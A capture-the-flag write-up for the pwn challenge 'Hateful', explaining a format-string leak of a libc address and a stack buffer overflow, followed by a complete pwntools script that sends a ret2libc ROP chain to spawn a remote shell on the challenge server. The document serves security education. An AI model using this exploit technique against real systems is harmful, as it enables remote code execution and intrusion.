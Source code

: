 # Challenge: Hateful

## Category: Pwn

## Challenge description
You hate your Boss??? You wanna just trash talk him but you are afraid he would fire you???
Dont worry we got you! send us the message you want to send him and we will take care of everything for you!

## Files given
- hateful: Main ELF file
- libc.so.6: Libc file
- ld-linux-x86-64.so.2: dynamic linker

## Examination
- First, lets checksec to see security mitigations of the file:
``` console
$ checksec --file=hateful        
[*] '/Users/leducanhvu/Downloads/CTF/nullcon/hateful'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```
- So we can exploit the stack, also PIE is disabled

## Solution
- First, to simulate the server environment, we can use patchelf to dynamically link the ELF to proper libc and linker version
- Reversing the binary, we can see a format string vulnerability, and we get a large payload to overflow the buffer
- Hence, without win() function, we need to take advantage from libc
- The format string vulnerability helps us leak arbitrary addresses on the stack. By using GDB retaddr, we can see that the 171-th argument on stack is a pointer to libc.
- After that, libc base address can be calculated as well as rop gadgets address 

## Exploit Script
```python
from pwn import *
host = '52.59.124.14'
port = 5020

libc = ELF('./libc.so.6')
binsh_offset = next(libc.search(b"/bin/sh\x00"))
rop = ROP(libc)
address_rdi = rop.rdi.address
address_system = libc.symbols['system']
address_ret = rop.ret.address
def solve():
        p = remote(host=host, port=port)
        print(p.recv().decode())
        p.sendline(b'yay')

        print(p.recv().decode())
        p.sendline(b"%171$llx")
        print(p.recvuntil(b'email provided: ').decode())
        address_leaked = int('0x' + p.recvuntil(b'\n')[:-1].decode(), 16)
        log.info('Leaked address: ' +  hex(address_leaked))
        libc_base = address_leaked - libc.symbols['__libc_start_main'] - 133
        log.info('Libc base address: ' + hex(libc_base))
        print(p.recv().decode())

        padding = b'A' * 1016
        payload = padding + p64(address_ret + libc_base) +  p64(address_rdi + libc_base) + p64(binsh_offset + libc_base) + p64(address_system + libc_base)
        p.sendline(payload)
        p.interactive() 
solve()



```